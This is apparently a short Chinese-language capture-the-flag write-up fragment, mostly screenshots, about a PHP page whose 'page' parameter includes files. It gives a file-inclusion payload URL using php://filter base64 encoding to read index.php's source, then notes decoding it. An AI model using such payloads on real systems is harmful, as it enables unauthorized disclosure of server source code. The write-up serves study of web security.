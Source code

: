 ![img](./assets/4e95bd-59c8ec-78805a221a988e79ef3f42d7-1024x251.png)

进入 index.php 页面后发现存在参数 page，直接包含 index.php 文件

```
http://111.200.241.244:57153/index.php?page=php://filter/read=convert.base64-encode/resource=index.php
```

![img](./assets/f1c02d-a38209-78805a221a988e79ef3f42d7-1024x233.png)

解码后为源代码

![img](./assets/76bb54-acc055-78805a221a988e79ef3f42d7-1024x513.png)

